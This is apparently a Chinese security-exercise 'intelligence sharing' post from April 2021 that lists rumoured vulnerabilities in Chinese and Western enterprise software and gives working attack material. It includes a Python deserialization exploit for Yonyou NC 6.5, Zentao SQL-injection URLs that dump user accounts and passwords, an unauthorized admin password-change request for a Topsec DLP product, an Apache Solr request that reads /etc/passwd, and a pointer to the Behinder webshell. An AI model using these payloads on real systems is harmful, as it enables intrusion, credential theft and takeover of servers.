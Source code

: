 # 2021.4.9 HVV | 情报共享
**前提：**2021.4.8 HVV | 情报共享 本文被恶意举报并被腾讯删除原文

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

_**特地在此重新分享：关注公众号并发送“hvv”**_

_**可获得所有文件下载链接**_

    4月8日15时，最新传出WPS-0day利用方式，通过点击触发WPS内置浏览器RCE
    4月8日13时，有消息传出天擎存在越权访问漏洞，poc已流出
    4月8日13时，致远OA-ajax.do存在任意文件上传漏洞，poc已流出
    4月8日12时，有消息传出齐治堡垒机存在命令执行漏洞，poc疑似已流出
    4月8日12时，网传深信服EDR存在命令执行漏洞，poc疑似已流出
    4月8日12时，网传深信服VPN存在无条件RCE漏洞，poc疑似已流出
    4月8日12时，网传jackson存在反序列化漏洞，poc疑似已流出
    4月8日12时，网传tomcat存在反序列化命令执行漏洞，poc疑似已流出
    4月8日12时，网传泛微OA9前台存在任意文件上传漏洞，poc已流出
    4月8日12时，网传泛微OA8前台存在SQL注入，poc已流出
    4月8日12时，网传CoreMai存在命令执行漏洞, poc疑似已流出
    4月8日12时，网传用友NC6.5版本存在反序列化命令执行漏洞，poc疑似已流出
    4月8日12时，网传dubbo存在反序列化命令执行漏洞，poc疑似已流出
    4月8日12时，网传weblogic存在反序列化命令执行漏洞，poc疑似已流出
    4月8日11时，网曝天擎前台存在sq|注入，poc已流出
    4月8日11时，网传和信创天云桌面系统全版本存在命令执行，文件上传，poc已流出
    4月8日11时，网传红帆0A任意文件写入漏洞，poc疑似已流出
    4月8日11时，网传exchange、 致远、shiro 存在0day漏洞,利用方式疑似已流出
    4月8日11时，网传金蝶K3Cloud全版本存在命令执行，poc疑似已流出
    4月8日11时，网传用友U8Cloud版本存在命令执行，poc疑似已流出
    4月8日11时，网传h3c计算管理平台2016年版存在任意账户添加，poc疑似已流出
    4月8日11时，网传启明星辰天清汉马USG防火墙存在逻辑缺陷，poc疑似已流出
    4月8日11时，网曝帆软V9存在getshell, poc已流出
    4月8日10时，有消息传出天眼存在0day漏洞，poc已流出
    4月8日10时，网传默安蜜罐管理平台存在未授权访问漏洞，poc已流出
    4月8日8时，网曝Jellyfin低于10.7.1版本存在任意文件读取漏洞，poc已公开

### **天融信dlp-未授权+越权**

管理员登录系统系统之后修改密码，未采用原密码校验，且存在未授权访问导致存在越权修改管理员密码。

    默认用户superman的uid=1
    POST  /?module-auth_user&action=mod_edit.pwd HTTP/1.1

**DzzOffice最新版RCE(随机数问题)**

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/1_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/2_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/3_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/4_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/1_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/2_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.dat)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/1_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.dat)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/5_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/2_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.dat)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/3_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/3_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.dat)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/4_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.dat)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/5_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.dat)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/6_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.dat)

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/7_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.dat)

**NC反序列化**

![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/4_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

捕获到攻击队利用用友nc反序列利用

目前测试影响版本：nc6.5

漏洞url为：

`**/service/~xbrl/XbrlPersistenceServlet**`

**poc：**

    import requests
    import threadpool
    import urllib3
    import sys
    import base64
    
    ip = ""
    dnslog = "\x79\x37\x64\x70\" #dnslog把字符串转16进制替换该段，测试用的ceye.io可以回显
    data = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x73\x72\x00\x0c\x6a\x61\x76\x61\x2e\x6e\x65\x74\x2e\x55\x52\x4c\x96\x25\x37\x36\x1a\xfc\xe4\x72\x03\x00\x07\x49\x00\x08\x68\x61\x73\x68\x43\x6f\x64\x65\x49\x00\x04\x70\x6f\x72\x74\x4c\x00\x09\x61\x75\x74\x68\x6f\x72\x69\x74\x79\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x04\x66\x69\x6c\x65\x71\x00\x7e\x00\x03\x4c\x00\x04\x68\x6f\x73\x74\x71\x00\x7e\x00\x03\x4c\x00\x08\x70\x72\x6f\x74\x6f\x63\x6f\x6c\x71\x00\x7e\x00\x03\x4c\x00\x03\x72\x65\x66\x71\x00\x7e\x00\x03\x78\x70\xff\xff\xff\xff\x00\x00\x00\x50\x74\x00\x11"+dnslog+"\x3a\x38\x30\x74\x00\x00\x74\x00\x0e"+dnslog+"\x74\x00\x04\x68\x74\x74\x70\x70\x78\x74\x00\x18\x68\x74\x74\x70\x3a\x2f\x2f"+dnslog+"\x3a\x38\x30\x78"
    
    uploadHeader={"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36"}
    req = requests.post("http://+"ip"+/service/~xbrl/XbrlPersistenceServlet", headers=uploadHeader, verify=False, data=data, timeout=25)
    print (req.text)

成功回显

### **禅道 11.6 sql注入漏洞**

漏洞url:

    http://xxx.xxx/zentaopms_11.6/www/api-getModel-user-getRealNameAndEmails-users=admin
    http://xxx.xxx/zentaopms_11.6/www/api-getModel-api-sql-sql=select+account,password+from+zt_user

这里简单说下禅道目前最新版所采用的pathinfo模式，首先通过传参确定进入的control文件为api，对应的method为getModel，接着开始对参数进行赋值，其中moduleName为api，methodName=sql，最后的param为sql=select+account,password+from+zt\_user，那么调用了call\_user\_func\_array函数后，会进入到api目录下的model文件，对应调用其中的sql函数，并通过赋值，将sql变量赋值为select+account,password+from+zt\_user，最后执行query语句  
 

### **冰蝎已更新 （支持内存马）**

官方地址：`https://github.com/rebeyond/Behinder/releases/tag/Behinder_v3.0_Beta_7`  
 

### **apache Solr 存在任意文件读取**

访问:`http://ip//solr/db/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd`  (db为存在的应用名)